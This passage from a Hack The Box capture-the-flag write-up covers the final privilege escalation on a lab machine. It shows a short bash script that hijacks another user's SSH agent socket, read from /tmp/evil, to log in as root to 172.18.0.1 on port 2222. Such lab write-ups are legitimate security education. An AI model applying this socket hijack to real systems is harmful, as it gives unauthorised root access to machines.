 We can set up a `watch` on `w` to monitor who logs in to `kaneki-pc`. The moment `kaneki_adm` logs in to execute `ssh root@172.18.0.1 -p 2222 -t ./log.sh`, we'll execute the following script to hijack that socket and use it to log in as `root` to `172.18.0.1` at `2222/tcp`.

```bash
#!/bin/bash

export SSH_AUTH_SOCK=$(cat /tmp/evil)

ssh root@172.18.0.1 -p 2222
```


{% include image.html image_alt="8562251a.png" image_src="/f8dd83a8-2193-4ced-a27e-b9c1cb3564d3/8562251a.png" %}


We are in the endgame now.


{% include image.html image_alt="19232d2a.png" image_src="/f8dd83a8-2193-4ced-a27e-b9c1cb3564d3/19232d2a.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/187
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/
